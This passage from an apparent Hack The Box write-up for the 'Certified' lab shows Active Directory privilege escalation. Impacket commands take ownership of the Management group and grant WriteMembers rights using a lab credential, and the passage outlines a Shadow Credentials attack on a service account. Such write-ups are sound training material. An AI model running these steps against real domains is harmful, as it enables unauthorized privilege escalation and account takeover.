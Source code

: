 So we will proceed as follow :  **Abuse `WriteOwner`ACL to add `judith.mader` to the `Management` Group > Abuse the `GenericWrite` ACL using Shadow Credentials on the `management_svc` service account.**

- First, we will make `judith.mader` the owner of the `Management` Group using `impacket-owneredit`

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Certified]
└─$ sudo impacket-owneredit -action write -new-owner judith.mader -target MANAGEMENT certified.htb/judith.mader:judith09

/usr/share/doc/python3-impacket/examples/owneredit.py:87: SyntaxWarning: invalid escape sequence '\V'
  'S-1-5-83-0': 'NT VIRTUAL MACHINE\Virtual Machines',
/usr/share/doc/python3-impacket/examples/owneredit.py:96: SyntaxWarning: invalid escape sequence '\P'
  'S-1-5-32-554': 'BUILTIN\Pre-Windows 2000 Compatible Access',

<SNIP>

[*] Current owner information below
[*] - SID: S-1-5-21-729746778-2675978091-3820388244-1103
[*] - sAMAccountName: judith.mader
[*] - distinguishedName: CN=Judith Mader,CN=Users,DC=certified,DC=htb
[*] OwnerSid modified successfully!
```

- Then i made `judith.mader` have write rights on the `management` group object using `impacket-dacledit`.

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Certified]
└─$ sudo impacket-dacledit -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' certified.htb/judith.mader:judith09

/usr/share/doc/python3-impacket/examples/dacledit.py:101: SyntaxWarning: invalid escape sequence '\V'
  'S-1-5-83-0': 'NT VIRTUAL MACHINE\Virtual Machines',
/usr/share/doc/python3-impacket/examples/dacledit.py:110: SyntaxWarning: invalid escape sequence '\P'
  'S-1-5-32-554': 'BUILTIN\Pre-Windows 2000 Compatible Access',


<SNIP>


/usr/share/doc/python3-impacket/examples/dacledit.py:127: SyntaxWarning: invalid escape sequence '\R'
  'S-1-5-32-580': 'BUILTIN\Remote Management Users',
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20250316-063639.bak
[*] DACL modified successfully!
```
